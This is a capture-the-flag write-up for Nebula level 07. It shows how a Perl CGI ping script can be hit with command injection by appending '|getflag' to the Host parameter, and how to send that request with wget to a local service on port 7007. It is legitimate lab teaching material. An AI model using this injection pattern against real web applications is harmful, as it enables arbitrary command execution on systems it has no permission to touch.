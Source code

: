 # Nebula - [LEVEL 07](https://exploit.education/nebula/level-07/)

Level Description:

![level.JPG](images/level.JPG)

# Nebula - [LEVEL 07](https://exploit.education/nebula/level-07/) - Solution

Let's try to run the ```index.cgi``` file with argument ```8.8.8.8```:

![run.JPG](images/run.JPG)

As we can see from the code, We can inject the ```getflag``` command by sending ```Host=8.8.8.8|getflag```, It will make the command:
```perl
...
@output = `ping -c 3 $host 2>&1`;
...
```
To run ```ping -c 3 8.8.8.8|getflag 2>&1```

By observing the ```/home/flag07/``` directory we can see another file ```httpd.conf```:

![thttpd.JPG](images/thttpd.JPG)

We can see that it's listening on port ```7007```.

Let's make a request using ```wget``` to the address [http://localhost:7007/index.cgi?Host=127.0.0.1|getflag](http://localhost:7007/index.cgi?Host=127.0.0.1|getflag): ```wget -qO- "http://localhost:7007/index.cgi?Host=127.0.0.1|getflag"```:

![flag.JPG](images/flag.JPG)

Note: We use the flag ```-q -O-``` to make ```wget``` to write the output to stdout (because we have no write permission on ```/home/flag07```)
